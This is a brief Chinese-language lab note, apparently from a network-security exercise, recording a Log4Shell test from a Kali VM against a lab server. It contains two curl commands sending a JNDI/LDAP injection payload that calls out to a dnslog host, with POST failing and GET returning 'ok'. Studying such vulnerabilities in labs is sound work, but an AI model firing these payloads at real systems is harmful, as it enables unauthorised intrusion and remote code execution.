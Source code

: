 ![1742139344862](image/网络安全丁梦/1742139344862.png)

在kali虚拟机中执行

```
curl -X POST http://10.37.133.3:56174/hello -d 'payload="${jndi:ldap://m8ljvi.dnslog.cn/ssd}"'
```

出现报错，服务器不支持 `POST`请求方法

![1742139849289](image/网络安全丁梦/1742139849289.png)

改用GET

```
curl -X GET http://10.37.133.3:56174/hello?payload='${jndi:ldap://m8ljvi.dnslog.cn/ssd}'
```

![1742139880741](image/网络安全丁梦/1742139880741.png)

得到ok
